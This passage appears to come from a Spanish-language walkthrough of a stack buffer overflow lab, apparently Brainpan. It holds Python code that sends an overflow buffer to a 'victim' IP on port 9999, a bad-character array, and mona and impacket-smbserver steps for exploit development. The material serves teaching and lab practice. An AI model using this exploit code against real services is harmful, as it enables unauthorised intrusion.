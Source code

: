 ```yml
buffer = offset + EIP + junk_ESP

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(2)
    # PON AQUI LA IP DE LA VICTIMA + EL PUERTO POR DONDE CORRE EL SERVICIO
    s.connect(("192.168.1.101",9999))
    s.recv(1024)

    print "[*] Sending buffer"
    s.send(buffer + '\r\n')
    s.close()

except:
    print '[*] Conexion perdida'
    sys.exit()
```

## Sexto / Limpiando "VARCHARS"
Aproximandonos en el final toca el momento de crear nuestro payload para asi limpiar los varchars que no acepta
el binario.

```yml
import socket
import sys
from time import sleep 

offset =  "A"*524
EIP = "B"*4

""""
    Crear la carpeta donde mona va a guardar los datos

        *** Debes aver estado ejecutado el control del ESP (05) previamente ***
        > !mona config -set workingfolder C:\Users\NOMBRE_DE_USUARIO\Desktop\%p ( Esta carpeta no existira hasta que haya datos )
        > !mona bytearray
        > !mona bytearray -cpb "\x00\x02\x0a\x23" (Aqui estaria los varchar que queremos quitar)
        > impacket-smbserver smbFolder $(pwd)
        > cat nombre_fichero.txt | grep -oP '".*?"' | tail -n 8 ( Lineas )
        > !mona compare -f C:\Users\NOMBRE_DE_USUARIO\Desktop\brainpan\bytearray.bin -a ESP_NUMBER
"""

# DEFINE AQUI TU ARRAY DE BADCHARS

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21"
"\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61"
"\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1"
"\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1"
"\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
"\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

```